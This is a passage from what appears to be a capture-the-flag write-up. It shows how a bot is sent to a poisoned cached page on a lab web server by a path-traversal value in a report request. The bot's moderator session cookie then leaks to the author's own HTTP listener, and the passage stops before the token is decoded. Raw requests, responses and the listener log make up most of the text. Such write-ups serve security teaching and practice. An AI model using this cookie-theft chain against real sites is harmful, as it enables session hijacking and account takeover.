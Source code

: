 ```http
</div>
...snip...
```

You can see the ETag returned is the same, which indicates we're hitting the cached content. Now all that's left is sending the bot to this page:

### Request 3 (Send the bot to the cached page)
```http
POST /api/report HTTP/1.1
Host: 192.168.1.118:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 36
DNT: 1
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTEsInVzZXJuYW1lIjoibXl1c2VyIiwicmVwdXRhdGlvbiI6MCwiY3JlZGl0cyI6MTAwLCJ1c2VyX3JvbGUiOiJOZXdiaWUiLCJhdmF0YXIiOiJuZXdiaWUud2VicCIsImpvaW5lZCI6IjIwMjItMDctMTkgMjA6MTI6MzUiLCJpYXQiOjE2NTgyNjk1Mzd9.VavmLYqwPLmxWSx7L13cGLZRCUTKrtwE6zzEdwNotms

{"post_id":"../threads/preview?123"}
```

### Response 3 (Send the bot to the cached page)
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 43
ETag: W/"2b-NN8PPBl7kFrrzCrU/wo9zyOL7/A"
Date: Tue, 19 Jul 2022 22:48:17 GMT
Connection: close

{"message":"Report received successfully!"}
```

Server returned an ok response, so we check our remote server to see what we got:

```bash
# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
<my_home_ip> - - [19/Jul/2022 22:48:15] "GET /img HTTP/1.1" 200 -
<my_home_ip> - - [19/Jul/2022 22:48:15] code 404, message File not found
<my_home_ip> - - [19/Jul/2022 22:48:15] "GET /session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVzZXJfcm9sZSI6Im1vZGVyYXRvciIsImZsYWciOiJIVEJ7ZjRrM19mbDRnX2Ywcl90M3N0MW5nfVxuIiwiaWF0IjoxNjU4MjcwODk0fQ.-nCvjIlXyWw2HDIfPuX_Rq7I4_uGnNuujQjLh0kjBj4
```

We decode the JWT payload, and there it is:
